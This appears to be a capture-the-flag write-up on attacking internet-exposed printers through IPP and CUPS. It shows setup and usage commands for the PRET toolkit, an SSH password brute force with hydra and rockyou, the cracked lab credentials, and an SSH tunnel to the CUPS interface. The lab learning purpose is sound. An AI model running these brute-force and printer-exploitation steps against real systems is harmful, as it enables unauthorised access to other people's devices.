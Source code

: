 
# Why can we hack printers

"The Internet Printing Protocol (IPP) -
is a specialized Internet protocol for
communication between client devices and printers.
It allows clients to submit one or more print jobs to the printer or print server,
and perform tasks such as querying the status of a printer,
obtaining the status of print jobs, or canceling individual print jobs."  

When an IPP port is open to the internet,
it is possible for anyone to print to the printer or even transfer
malicious data through it (using it as a middleman for attacks).  

A recent study by VARIoT (Vulnerability and Attack Repository for IoT)
showed that there are still around
80 thousand vulnerable printers opened to the world.
Most of them appear to run the CUPS server
(which is a simple UNIX printing system).  

IPP runs on port 631

# How to exploit it

There's an awesome toolkit in github:
[here](https://github.com/RUB-NDS/PRET)

Install it by:

```bash
git clone https://github.com/RUB-NDS/PRET && cd PRET
python2 -m pip install colorama pysnmP
```

##### Locating printers

For automatic printer discovery in my local network:

```bash
python pret.py
```

##### Exploiting

There are exactly three options you need to try when exploiting a printer using PRET:

1. ps (Postscript)
2. pjl (Printer Job Language)
3. pcl (Printer Command Language)

You need to try out all three languages just to see which one is going to be
understood by the printer.  

Sample Usage:

```bash
python pret.py {IP} pjl
python pret.py laserjet.lan ps
python pret.py /dev/usb/lp0 pcl
```

(Last option works if you have a printer connected to your computer already)

After running this command,
you are supposed to get shell-alike output with different commands.
Run help to see them.

As you can see, PRET allows us to interact with the
printer as if we were working with a remote directory.
We can now store, delete, or add information on the printer.  
(For more commands and examples read the project's GitHub)

You can possibly try PRET on your printer at home, just to test its security.
Here's a nice cheat sheet:
[cheat-sheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet)

# Our Challenge

I have attached a poorly configured CUPS server VM in this task.
Deploy it and access the IPP port at 10.10.166.231:631.
See if you can retrieve any sensitive information.  
(PRET isn't going to work here as it is using port 9000 by default)

Note also: An ssh access to the machine allows you to set up ssh tunneling,
opening all CUPS features and providing you an ability to use attached printers.
SSH password can be easily brute-forced (weak password).  

An example command for ssh tunneling:

```bash
ssh printer@10.10.166.231 -T -L 3631:localhost:631
```

After doing so, you can easily add the CUPS server in your VM's printer settings
and even try to send some printing jobs.  

My tasks:

1. So I have to brute force the password of ssh
2. Forward the printer to my localhost
3. Enum the web-site

After running:

```bash
hydra -l printer -P /usr/share/wordlists/rockyou.txt 10.10.166.231 ssh
```

I get:

```bash
[22][ssh] host: 10.10.166.231   login: printer   password: password123
1 of 1 target successfully completed, 1 valid password found
```

To access the webpage

```bash
ssh printer@10.10.166.231 -T -L 3631:localhost:631
```

Navigate to localhost:3631
